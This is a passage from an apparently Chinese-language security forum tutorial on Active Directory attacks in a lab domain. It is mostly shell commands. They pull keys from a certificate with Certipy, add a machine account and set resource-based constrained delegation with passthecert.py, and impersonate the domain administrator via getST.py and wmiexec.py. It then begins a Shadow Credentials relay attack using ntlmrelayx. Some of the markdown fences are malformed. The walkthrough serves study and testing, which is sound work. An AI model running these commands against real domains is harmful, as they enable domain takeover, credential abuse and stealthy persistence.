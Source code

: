 1. 使用 Certipy 工具获取 pfx 文件中的密钥和证书信息
    
    ```shell
    certipy cert -pfx NoPKI02.pfx -nokey -out NoPKI02.crt
    certipy cert -pfx NoPKI02.pfx -nocert -out NoPKI02.key 
    ```
    
    ![x3TcZt.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-0484943bc742b4af5f7e3957b8b241aa173861c4.png)
2. 使用 passthecert.py 创建机器账户
    
    ```shell
    python3 passthecert.py -action add_computer -crt NoPKI02.crt -key NoPKI02.key -domain hack.lab -dc-ip 20.20.20.5 -computer-name NoPKI02$ -computer-pass 123.com
    ```

![x3T2If.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-e6390bd0f9d8f3370c339c4eb0e7a11ef4254137.png)

3. 使用 passthecert.py 添加 RBCD 属性
    
    ```shell
    python3 passthecert.py -action write_rbcd -crt NoPKI02.crt -key NoPKI02.key -domain hack.lab -dc-ip 20.20.20.5 -delegate-from NoPKI02$ -delegate-to DC01$
    ```
    
    ![x3TWi8.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-00e8c6a447520a80912521c26d918a280d735af5.png)
4. 后渗透：申请TGT及攻击
    
    ```shell
    
    python3 getST.py -spn cifs/DC01.hack.lab -impersonate administrator hack.lab/NoPKI02\$:123.com -dc-ip 20.20.20.5
    ```

KRB5CCNAME=administrator.ccache python3 wmiexec.py -k hack.lab/administrator@DC01.hack.lab -no-pass -dc-ip 20.20.20.5

```php

# 0x05 修改 Shadow Credentials 属性 | 影子账户
> --shadow-credentials

## 攻击原理
在支持 PKINIT 协议的域内环境，若目标机器账户存在 msDS-KeyCredentialLink 属性（公钥信息），在预认证中，可以使用对应的证书（私钥信息）进行验证身份。
通过 NTLM Relay 攻击强制修改目标服务器的 msDS-KeyCredentialLink 属性，使用私钥信息申请 TGT，实现对目标对象持久和隐蔽的访问

具体的原理在[之前的文章](https://forum.butian.net/share/1607)中有详细介绍过

条件：
- 目标服务器支持 PKINIT 协议
- 域控制器版本在Windows Server 2016以上
- 域内安装了AD CS服务

## 攻击流程
1. 开启监听器
使用[ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py)工具开启监听， --remove-mic 参数用于跨协议时LDAP签名的消除
```shell
python3 ntlmrelayx.py -t ldap://DC01.hack.lab --remove-mic --shadow-credentials --shadow-target F2016$
```
